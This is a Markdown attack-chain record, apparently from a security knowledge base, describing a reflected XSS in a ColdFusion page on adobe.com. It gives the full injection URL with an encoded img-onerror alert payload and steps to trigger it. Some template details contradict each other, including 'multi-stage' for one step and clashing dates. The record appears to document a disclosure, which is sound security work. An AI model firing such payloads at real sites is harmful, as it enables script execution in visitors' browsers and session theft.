

---
tags:
  - xss
  - reflected-xss
  - adobe
  - coldfusion
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands: []
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Exploit-XSS-in-Adobe-Product-Name-Parameter]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in Adobe's web
  application by injecting a malicious payload into the product_name parameter,
  resulting in arbitrary JavaScript execution in the victim's browser.
skill_level: beginner
impact_level: medium
id: 0ce1e493-a434-4e69-bef7-1efe88d6a54c
created_at: '2025-12-14T03:16:31.037Z'
updated_at: '2025-12-14T03:16:31.037Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# XSS Injection in Adobe Product Name Parameter Leading to JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Firefox)

### Target Environment

- Web platform
- ColdFusion-based application
- Access to public-facing endpoint

### Initial Access Requirements

- No credentials required
- Direct network access to http://www.adobe.com
- No prior access needed

## Detailed Attack Procedures

### Step 1: Payload Injection and Execution
procedure: [[procedures/Exploit-XSS-in-Adobe-Product-Name-Parameter]]

**Objective**: Inject a malicious JavaScript payload into the product_name parameter to execute arbitrary code in the browser.

**Instructions**: Construct the malicious URL by appending the encoded XSS payload to the target endpoint. The payload </a><!-- is URL-encoded as %3C/a%3E%3Cimg%20src=x%20onerror=alert%28/dsopas/%29%3E%3C!--. Access the URL in a web browser to trigger the execution.

Full URL example:

```url
http://www.adobe.com/cfusion/google/fonts/content.cfm?spider=google&code=/type/browser/pdfs/BLCQ/BellCentennialStd-NameNum.pdf&type=resource&product_name=%3C/a%3E%3Cimg%20src=x%20onerror=alert%28/dsopas/%29%3E%3C!--
```

**Expected Output**: An alert box displaying "dsopas" pops up in the browser, confirming JavaScript execution.

**Success Indicators**:
- Alert box appears on page load
- No sanitization errors or blocks observed

## Attack Chain Summary

### Key Achievements

1. Successful injection of XSS payload into the product_name parameter
2. Demonstration of arbitrary JavaScript execution via onerror handler
3. Highlighted potential for session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
